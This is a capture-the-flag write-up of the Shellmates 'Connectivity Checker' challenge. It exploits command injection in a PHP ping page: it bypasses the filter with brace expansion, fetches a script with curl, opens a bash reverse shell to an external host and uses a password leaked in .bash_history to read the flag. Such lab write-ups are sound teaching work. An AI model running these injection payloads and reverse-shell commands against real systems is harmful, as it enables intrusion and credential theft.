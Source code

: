 ﻿# Connectivity Checker CTF Writeup

This CTF was made by [Shellmates Club](shellmates.club/).

## The full CTF assignment:

Greetings infosec community!
We hope you're doing good as well as your loved ones. Today, we have concocted a new challenge for you in the web security field.  🕸️  
Here is the statement of the challenge:

=-=-=-=-=-=-=-= Task =-=-=-=-=-=-=-=  
My friend made a simple web application that pings hosts on the internet to see if they're up. When I asked him if he thought about the security part, he seemed so confident and started talking about his filter.  
Go there and prove him that his web application is not that secure by leaking the content of /home/ctf/flag.txt.  
Challenge url:  [http://web.challs.shellmates.club/](http://web.challs.shellmates.club/?fbclid=IwAR2PkWxv575RmCa5UQ9XaMiDK4LRWGVfhbxy2Xn-GH-RYwFD8sBRAoji3e4)

Note: No scanning, enumeration, nor brute forcing is required, this challenge is pretty straight forward.  
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

DM us the flag as a proof of compromise, and eventually, your writeup for the challenge so it gets featured in the next post!  
Good luck, and stay safe!  💪🏻

Link to the [Original Post](https://www.facebook.com/shellmates/posts/2894907780565646)

 ## Hints:
 

 In the [Original Post](https://www.facebook.com/shellmates/posts/2894907780565646), they gave us some useful hints:
> - /home/ctf/flag.txt. 

> - Note: No scanning, enumeration, nor brute forcing is required, this challenge is pretty straight forward. 

> - PS: Getting Remote Code Execution is just the first step, you have to escalate your privileges. Note the file permissions on flag.txt.
 
Those hints mean that:
 
 - The file in in ```/home/ctf/flag.txt``` , and the user is `ctf`.
 - We won't make any `scanning`, `enumeration`, nor `brute forcing`.
 - We should get Remote Code Execution and escalate our privileges.

So Let's BEGIN.
## Let's Begin:
From the index page, we know that it is a **PHP** server, so let's use the good old trick: adding **`';`** to the input, and the result was expected,

    Okay BOOMER
So, we can say that they are using an **Input Filter** to stop any input with unwanted characters.
### Understanding the magic behind the PING:
A quick search on `How can we make a Ping test using a server running PHP` will reveal that the PHP execute a command to the server shell, so we have to use that for our advantage.
Let's try submitting `127.0.0.1&&ls`and see what we will have as an output:

```PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.  
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.028 ms  
  
--- 127.0.0.1 ping statistics ---  
1 packets transmitted, 1 received, 0% packet loss, time 0ms  
rtt min/avg/max/mdev = 0.028/0.028/0.028/0.000 ms  
index.php
```
**WOW**, so we are right.
Let's try `127.0.0.1&&cat index.php` and see:
 ```
 Okay BOOMER
 ```
 And Again 🤦‍♂️.
 
 So, we will add the white space to unwanted characters' list, and find another way to execute our commands.
 What if we used *Brace Expansion* ?
 Let's try submitting `127.0.0.1&&{cat,index.php}` :
```
Connectivity Checker
Check out this great pinging tool!
  
if (isset($_POST["ip"])) {  
$ip = $_POST["ip"];  
if (preg_match('/^(.*)[\s;](.*)$/', "$ip")) {  
echo ' ```
if (isset($_POST["ip"])) {  
$ip = $_POST["ip"];  
if (preg_match('/^(.*)[\s;](.*)$/', "$ip")) {  
echo '

Okay BOOMER

';  
}  
else {  
$output = shell_exec('(echo "ping -c 1 '."$ip".'" | bash) 2> /dev/null');  
echo '

Output:  
  
'.nl2br("$output").'

';  
}  
}  
?>
```

**Now we are talking** 😎.

So in order execute our commands, we will use this format.
## Get a Reverse Shell:
Getting a reverse shell is important, so let's set up our NetCat Listener.

> **We should configure our Router for Port Forwarding**

```$ ncat -l -vv -p <PORT>```

Executing the command :
```127.0.0.1&&{bash,-i,>&,/dev/tcp/<External-IP>/<PORT>,0>&1}```
Will give us Nothing, and it's because of the way the `index.php` was written, the variable that gives the IP address to ping sais:
```$output = shell_exec('(echo "ping -c 1 '."$ip".'" | bash) 2> /dev/null');```
So let's find another way to execute the command, and what about making a small *bash script* that handle the command execution for us?
Well, let's try it:
Let's write our ***bash script*** and save it with the name `exploit.sh`:
```
#!/bin/bash

bash -i >& /dev/tcp/<External-IP>/<PORT> 0>&1
```
But the question is: **How can we do it ?**
And the easy answer is to download it to the server is using `wget` or `curl`,but which one ?
Starting with `wget`, so if we execute `localhost&&{ls,/usr/bin/wget}`, we get nothing, which means that it doesn't existe.
What about `curl`?
Well, executing `localhost&&{ls,/usr/bin/wget}`will give us this output:
`/usr/bin/curl`
Now, we know that we should use `curl`, and for that we will need a **simple HTTP server** in order to download the exploit in the server, and I think the simple thing is to create one with just one command using **Python**:
```
$ python3 -m http.server
```

And finally, we are ready to execute our file in the server, and we know that the best place to execute our ***bash script*** from is the `/tmp/`folder, let's do it:
```
127.0.0.1&&{cd,/tmp/}&&{curl,--output,exploit.sh,<External-IP>:<Port>/exploit.sh}&&./exploit.sh
```
And now we are ready.
## What do we have other than 'flag.txt' file ?
As you may know, it's always to check everything we can in order to have the biggest amount of data around our target, and so let's take a look at what do we have in the `/home/ctf/`folder:
```
$ ls -al /home/ctf
```
and the result is:
```
drwxr-xr-x 1 root root 4096 Apr 13 12:30 .  
drwxr-xr-x 1 root root 4096 Apr 12 10:29 ..  
-rw-r--r-- 1 ctf ctf 42 Apr 13 12:30 .bash_history  
-rw-r--r-- 1 ctf ctf 220 May 15 2017 .bash_logout  
-rw-r--r-- 1 ctf ctf 3526 May 15 2017 .bashrc  
-rw-r--r-- 1 ctf ctf 675 May 15 2017 .profile  
-r-------- 1 ctf ctf 46 Apr 9 09:51 flag.txt
```
Let's check the `.bash_history` file and see:
```
ls -al  
sduo -s  
Qu4r4Nt1n3d!@  
sudo -s  
exit
```
And it looks like someone has misspelled the word `sudo`, but what about this strange string `Qu4r4Nt1n3d!@` ?
So we know that we should enter our password when we want to execute the `sudo -s` command, and it seems like our friend who misspelled the word `sudo`, also he wrote his password in the terminal before realizing that.
## The Last Step:
After we found what looks like the `ctf` user's password, let's try to login using his name and password, for that we need to use the command `su`, but the problem we face is that is returns:
```
su: must be run from a terminal
```
So, the way to solve it is to upgrade our limited shell, and one of the ways to do so is by using the **Python**'s [pty module](https://docs.python.org/2/library/pty.html), so lets do it:
```
$ python -c 'import pty; pty.spawn("/bin/bash")'
```
 And now if we check for the `su`command:
```
$ su - ctf
```
It asks us for the password, and by entering the password we found above:
```
Password: Qu4r4Nt1n3d!@
```
AND WE DID IT !
The final thing to do is: '*you guessed it*'
```
$ cat flag.txt
shellmates{b3_c4r3FuL_w1t|-|_CMD_1nj3ct1i0N!}
````
# Final Thoughts:
I think this challenge was really well build by the [Shellmates Club](shellmates.club/), because it tries to give us an idea about how things work under the hood, and how a simple thing like forgetting to delete the `bash history` can take us down.
# Finally:
Special thanks to [Shellmates Club](shellmates.club/) for this amazing opportunity to learn,
and also, a special thanks to:
**[Bilal Retiat](https://philomath213.github.io/),  [Redouane Niboucha](https://red0xff.github.io/) and Abdelaziz BOUHOUN**
for their amazing help they gave me in my first CTF.
